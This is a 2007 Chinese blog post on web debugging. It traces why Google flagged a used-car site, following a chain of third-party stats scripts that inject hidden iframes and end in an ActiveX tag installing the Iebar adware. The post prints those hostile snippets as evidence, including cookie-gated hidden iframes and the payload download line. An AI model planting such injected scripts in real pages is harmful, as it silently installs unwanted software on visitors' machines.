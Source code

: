 ```yaml
---
title: 一段Script引发的“冤案”
date: 2007-04-24 14:59:47 + 0080
category: [Web开发]
tags: [Web, Debugging]
---
```


用 Google 搜索关键字：西安二手车，发现这个网站的下面多了一段警告。提示：**This site may harm your computer.** 本网站可能危害您的电脑。点击link后google会弹出一个更大的警告让你不去访问这个网站。  
![alert](/assets/attachments/2007/04/24_145646_nkcqimage1.gif)  
看到这个提示，十分佩服 Google。把搜索和查毒集成在一起了。Google的搜索引擎真是牛。可是为什么 Google 会认为这个网站有问题会 **harm your computer**。进入 Google 对此内容的解释：  

> This warning message appears with search results that weve identified as sites that may install malicious software on your computer. We want our users to feel safer when they search the web, and were continuously working to identify such dangerous sites and increase protection for our users.  

看来是这个站点会在用户浏览时安装恶意的程序。  
升级了诺顿，冲入这网站探个究竟。刚一进如后就发现诺顿提示有病毒。  
![risks](/assets/attachments/2007/04/24_145716_b91eimage2.gif)  
看来这个网站真的是有问题。到底这个网站那里出了问题，是站长故意把病毒放在里面了？还是什么问题。进入病毒的描述信息  

```  
Updated: February 13, 2007 11:51:32 AM  
Type: Adware  
Publisher: HDT, Inc  
Risk Impact: High  
File Names: iebar22.0.dll barhelp22.0.dll  
Systems Affected: Windows 2000, Windows 98, Windows Me, Windows NT, Windows Server 2003, Windows XP  
Behavior  
Adware.Iebar is a Browser Helper Object that displays advertisements and downloads files  
Symptoms  
Your Symantec product detects this threat as Adware.Iebar.  
Unexpected advertisements appear in Internet Explorer browser windows.  
```
看来是 `IE` 恶意插件。
用 `http` 请求跟踪工具，看看浏览器请求了什么。
![requests](/assets/attachments/2007/04/24_145800_3zs7image3.gif)  
看到`iebar.t2t2.com /iebar.cab application/octet-stream`。这一行真相大白了。是这个网站加载了这个恶意文件。当用户浏览时要求用户下载。看来Google真厉害，把网站上的这种动作都记录下来并分析了。  

要求用户访问下载这个 `iebar.cab`，Render 过来对应的 html 是什么呢。是用 `iframe src` 请求下载，使用 `image src script src` 是什么样一种方式呢？再次进入跟踪。发现是：  
`iebar.t2t2.com /test1.htm` 这一行 Render 了这样的代码：

```html
<script language=javascript>  
//......   
if (GetCookie("today_install")==null)  
{ 
    document.write("<object id=InitObj classid=clsid:56A7DC70-E102-4408-A34A-AE06FEF01586 height=0 width=0 CODEBASE=http://iebar.t2t2.com/iebar.cab#Version=1,1,0,0></object>");
}  
//......  
</script>
```

其中的:  
`document.write("<object id=InitObj classid=clsid:56A7DC70-E102-4408-A34A-AE06FEF01586 height=0 width=0 CODEBASE=http://iebar.t2t2.com/iebar.cab#Version=1,1,0,0></object>");`  
是“元凶”要求用户下载并安装这个恶意插件。

是谁请求的 `/test1.htm？`  
查看 `stat1.vipstat.com /stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24 text/html` 这一行，它 Render 了这样的代码：  
```js
if (isinstall==1) {
    SetCookie(cookieKey,pid +"|" + unionid + "|" + sid,1);
    document.write("<iframe width=0 height=0 src=\"http://iebar.t2t2.com/test1.htm\" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=yes><\/iframe>");
}
```

是 `document.write("<iframe width=0 height=0 src=\"http://iebar.t2t2.com/test1.htm\" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=yes><\/iframe>")` 是Javascript 动态添加的 Iframe带入的恶意脚本。

是谁请求的 `/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24`  
查看 `stat.t2t2.com /log/log1.asp?default&user=zgchecom text/html` 这一行，它请求 Render 回来了：
```js  
function GetCookie(sName)  
{  
    var aCookie = document.cookie.split("; "); 
    for (var i=0; i < aCookie.length; i++) 
    {  
        var aCrumb = aCookie[i].split("="); 
        if (sName == aCrumb[0])  
        return unescape(aCrumb[1]); 
    }  
    return null;  
}  

cookieName="comt2t2"; 
isCookie = GetCookie(cookieName);

if ( isCookie != ok)  
{  
    document.write('<iframe width=0 height=0 src="http://stat1.vipstat.com/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=yes></iframe>');
}
```
又是 Javascript 动态添加的 iframe 带入的恶意脚本。  
是谁请求了`/log/log1.asp?default&user=zgchecom`  
查看 `stat.t2t2.com /stat.js application/x-javascript` 这一行 Render 回来的脚本：   

```js
var tc_user;  
document.write("<a href=http://www.textclick.com/viewmain.asp?name=+tc_user+ target=_blank><img src=http://stat.t2t2.com/stat.gif border=0></a>");  
if (tc_user==null) tc_user="";
document.write('<iframe width=0 height=0 src="http://stat.t2t2.com/log/log1.asp?default&user=+tc_user+" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=no></iframe>');
```

还是 Javascript 动态添加的 iframe 带入的恶意脚本。  
这几次绕来绕去，都没有看到 w`ww.zgche.com` 我们实际访问的站点。  
在 `http://www.zgche.com/index.asp` Render 回来的 html 终于找到加载 `stat.t2t2.com/stat.js` 的代码：  

```html
<script language="javascript" src="http://count16.51yes.com/click.aspx?id=162936015&logo=8"></script>  
<script>var a="zgchecom";</script>
<script>var tc_user="zgchecom";var tc_class="18";</script>
<script src="http://stat.t2t2.com/stat.js"></script>  
```

终于整个加载的线路清楚了。
```  
http://www.zgche.com/index.asp ->  
http://stat.t2t2.com/stat.js ->  
http://stat.t2t2.com/log/log1.asp?default&user=zgchecom -> http://stat1.vipstat.com/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24 ->  
http://iebar.t2t2.com/test1.htm ->  
http://iebar.t2t2.com/iebar.cab  
```

通过上面的加载。恶意的程序最终 Render 成 `<object id=InitObj classid=clsid:56A7DC70-E102-4408-A34A-AE06FEF01586 height=0 width=0 CODEBASE=http://iebar.t2t2.com/iebar.cab#Version=1,1,0,0></object>` 让浏览器来解释。浏览器看到 `object activeX` 要求用户安装。恶意程序通过这个手段安装到用户的机器上了。 

**好曲折的步骤。恶意程序十分会隐藏自己。**  

最终找到恶意程序。但是从上面的分析最初用户访问的`www.zgche.com`并没有 “问题”。不是站长放入了恶意程序。它完全是被“牵连”的。是 `stat1.vipstat.com/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24` 加载了恶意成程序。是 `stat1.vipstat.com` 出了问题。但 Google 认为是它出了问题。Google 站在访问者的角度来看待问题。在 Google的 link: `www.stopbadware.org/home/help` 看到 stopbadware 建立了一个数据库，存储这些恶意站点的信息，建立了黑名单。支持申诉。猜想 Google 是分析这个页面的请求，当请求 `http: //iebar.t2t2.com/iebar.cab` 这种在黑名单的地址就认为这个网站是有恶意的网站。最初在建立这个黑名单时，是用这种最终存放恶意程序的地址为源头，来搜索谁请求了他们。然后记录下这些直接请求的地址。然后再看谁请求了这些地址。再次加入黑明单。这样层层的加入来扩张黑名单的数据库。  

**问题的根本原因是一段 Script 的多重加载，加载了恶意程序。** 
